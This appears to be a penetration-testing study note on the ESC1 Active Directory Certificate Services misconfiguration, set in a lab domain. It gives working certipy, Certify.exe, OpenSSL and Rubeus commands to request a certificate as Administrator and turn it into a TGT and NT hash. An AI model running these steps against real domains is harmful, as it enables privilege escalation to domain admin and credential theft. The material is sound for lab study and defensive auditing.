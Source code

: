 ```yaml
---
description: ESC | Active Directory Certificate Services
---
```


# ESC1

Vulernability lies in the possibility to specify an alternate user in the certificate request. If the certificate templates allows including a `subjectAltName` (`SAN`) from another use than from the user making the ceritificate request, we can use any user.

```bash
# Find vulnerabilities
certipy-ad find -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.228.236 -vulnerable -stdout

# Showing
[!] Vulnerabilities
      ESC1                              : 'LAB.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication 
```

### <mark style="color:yellow;">ESC1 from Linux</mark>

To abuse the ESC1 template we can use certipy to request a Certificate and include a alternate subject. This is done with `req` and `-upn Administrator` (or any other user.

```bash
certipy req -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -ca lab-LAB-DC-CA -template ESC1 -upn Administrator
```

#### Authenticate with certificate and get a TGT

```
certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.205.199
```

### <mark style="color:yellow;">ESC1 Abuse from Windows</mark>

#### Enumeration with Certify.exe

```powershell
# Certify
.\Certify.exe find /vulnerable

# ADCS Enumeration
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
```

#### Convert certificate and get NT hash

```powershell
# Request wilt alternate SAN
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:ESC1 /altname:administrator@lab.local

# With OpenSSL convert certificate to pfx from cert.pem
.& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Authenticate with certificate
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /nowrap
```

## Concluding

ESC 1 misconfiguratin is specifying an alternate user in the certificate request by alloowing to including a `subjectAltName` (`SAN)` .

#### What makes it vulnerable to ESC1?

| Object                        | Value                        |
| ----------------------------- | ---------------------------- |
| Enrollment Rights             | Like: LAB.LOCAL\Domain Users |
| Requires Manager approval     | False                        |
| Authorized Signature Required | 0                            |

{% hint style="info" %}
An other group than domain users may have enrollment rights which we could me member of.
{% endhint %}

Request certificate with different UPN, then authenticate with the .pfx file giving a NT hash and a TGT.
